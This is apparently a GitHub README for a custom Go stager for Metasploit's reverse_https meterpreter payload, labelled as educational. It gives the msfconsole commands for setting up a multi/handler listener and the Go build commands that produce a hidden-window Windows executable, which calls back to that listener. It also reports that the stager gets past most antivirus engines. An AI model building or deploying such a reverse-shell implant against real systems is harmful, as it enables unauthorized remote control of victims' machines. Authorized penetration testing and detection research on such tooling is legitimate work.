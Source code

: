 **!!! This is for educational purposes only !!!** <br> **!!! Use this only where authorized !!!**

This is a custom stager written for Metasploit Framework's reverse_https meterpreter payload. I wrote this to get a better understanding of Metasploit Framework's payloads and how well antiviruses detect custom stagers.

# Launching a listener
Using the included `.rc` file launch msfconsole i.e. `msfconsole -f ./listener.rc`

Or run at least the following commands in msfconsole substituting your listening address and port number:
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set lport ENTERPORTNUMBERHERE
set lhost ENTERLISTENADDRESSHERE
run
```

# Compiling the payload
**Ensure you have changed the host and port variables in the msf_rev_https.go file.**

The following examples assume you have a shell open in the directory of the msf_rev_https.go file.

These will result in a `.exe` file that will call back to your msfconsole listener.
### Windows
    go build -ldflags "-H=windowsgui -w -s" -o newExecutable.exe . 
### Linux
    env GOOS=windows GOARCH=amd64 go build -ldflags "-s -w -H=windowsgui" -o newExecutable.exe .

# Detection
Custom payloads are difficult to detect, at the time of writing this payload was flagged by 3/68 antiviruses on VirusTotal. It is important to note that this is quite low, non-malicious executables are often flagged as well. I have linked below the results from my "newExecutable.exe", and one for putty.exe.

My Go reverse HTTPS meterpreter: https://www.virustotal.com/gui/file/26ac135ef4e7ed030186fc91338989bcbcebfc44c2cb54bc48ace9802097d51b/detection <br>
PuTTY v0.74: https://www.virustotal.com/gui/file/f032c50564a21c39a8c85873a4c96f09eb6398330c67291408497816401957f6/detection
